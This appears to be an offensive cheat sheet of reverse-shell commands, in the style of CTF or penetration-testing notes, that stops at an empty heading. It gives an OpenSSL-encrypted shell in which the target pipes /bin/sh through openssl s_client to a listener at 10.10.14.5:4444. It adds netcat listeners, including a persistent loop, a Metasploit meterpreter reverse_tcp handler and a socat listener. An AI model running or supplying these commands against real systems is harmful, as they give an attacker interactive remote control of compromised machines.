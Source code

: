## Generate SSL certificate for OpenSSL shell

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

## Start OpenSSL listener for reverse shell

```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

## Connect to OpenSSL listener from target

```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.10.14.5:4444 > /tmp/s; rm /tmp/s
```

## Start netcat listener for reverse shell

```bash
nc -nlvp 4444
```

## Start netcat listener with logging

```bash
nc -nlvp 4444 | tee shell.log
```

## Start persistent netcat listener

```bash
while true; do nc -nlvp 4444; done
```

## Start Metasploit multi handler for reverse shell

```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 10.10.14.5; set LPORT 4444; exploit -j"
```

## Start socat listener for reverse shell

```bash
socat file:`tty`,raw,echo=0 TCP-LISTEN:4444
```

## Set terminal environment variable
